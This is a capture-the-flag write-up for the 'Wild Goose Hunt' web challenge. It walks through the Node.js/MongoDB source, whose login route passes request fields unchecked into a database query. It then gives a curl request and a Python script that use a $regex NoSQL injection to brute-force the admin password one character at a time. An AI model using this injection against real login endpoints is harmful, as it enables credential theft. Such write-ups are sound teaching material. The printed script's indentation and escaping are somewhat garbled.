 # Wild Goose Hunt
![[Pasted image 20210422121140.png]]

## Analyzing the source files
The downloadable config comes with an entrypoint.sh file. It appears to add a user called admin with the password set as our flag. This will most likely be our endstate target.
```bash
$cat entrypoint.sh 
#!/bin/ash
...snip...
mongo heros --eval "db.createCollection('users')"
mongo heros --eval 'db.users.insert( { username: "admin", password: "CHTB{f4k3_fl4g_f0r_t3st1ng}"} )'
```

Our index.js file shows us the database will be running on localhost:27017/heros. It also shows us that any url requested outside of the defined (Directory fuzzing) will result in a 404 response.

```bash
cat challenge/index.js 
const express    = require('express');
const app        = express();
const bodyParser = require('body-parser');
const routes     = require('./routes');
const mongoose   = require('mongoose');

mongoose.connect('mongodb://localhost:27017/heros', { useNewUrlParser: true , useUnifiedTopology: true });

...snip...

app.use(routes);

app.all('*', (req, res) => {
    return res.status(404).send({
        message: '404 page not found'
...snip...
```

In the routes directory we have another index.js file. It appears we have two browsable directories _/_ and _/api/login_. The _/api/login_ page takes a post request and does some validation on the user for login through a mondb find.() request. Basically, if the username and password values match the database values, it will return with login successful.

```bash
cat challenge/routes/index.js 
const express = require('express');
const router  = express.Router();
const User    = require('../models/User');

router.get('/', (req, res) => {
	return res.render('index');
});

router.post('/api/login', (req, res) => {
	let { username, password } = req.body;

	if (username && password) {
		return User.find({ 
			username,
			password
		})
			.then((user) => {
				if (user.length == 1) {
					return res.json({logged: 1, message: `Login Successful, welcome back ${user[0].username}.` });
				} else {
					return res.json({logged: 0, message: 'Login Failed'});
				}
			})
			.catch(() => res.json({ message: 'Something went wrong'}));
	}
	return res.json({ message: 'Invalid username or password'});
});

module.exports = router;
```

## Exploitation

We can change the content type header to allow us to insert regex into the mongodb find function. Using regex, we can brute force the flag one character at a time.


```bash

Request:
curl http://localhost:1337/api/login -X POST -H "Content-Type:application/json" -d '{"username":"admin","password": {"$regex": "CHTB{f" }}'

Response:
{"logged":1,"message":"Login Successful, welcome back admin.
```


Using this knowledge, lets build a python script to recover the flag. Our script will run through each ascii character and check for the proper response. If given the proper response, we append it to the flag. Finally, we continue to do this until the entire flag is recovered.

```python
#curl http://localhost:1337/api/login -X POST -H "Content-Type:application/json" -d '{"username":"admin","password": {"$regex": "CHTB{f" }}'

  

import requests

  

#Chars that give false positives

bad = (36,42,43,46,63,124)

  

#Set up our connection and header type

url = 'http://188.166.145.178:32498/api/login'

hdr = { 'Content-Type' : 'application/json' }

  

#Create list to contain flag

flag = list()

  
  

while True:

	#Iterate through the ascii range while avoiding bad chars

	for i in \[x for x in range(31,127) if x not in bad \]:

	c = chr(i)

	test\_flag = ''.join(flag) + c

	unpw = '{"username":"admin","password": {"$regex": "CHTB{%s" }}' % test\_flag

	req = requests.post(url\=url, headers\=hdr, data\=unpw)

	#Check to see if we got the correct char

	if "welcome back admin" in req.text:

		flag.append(c)

		print(flag)

	#Check for last value in flag and print final product

	if flag\[-1\] == "}":

		winner\_flag = ''.join(flag)

		print("Flag: CHTB{%s" % winner\_flag)

		break
```
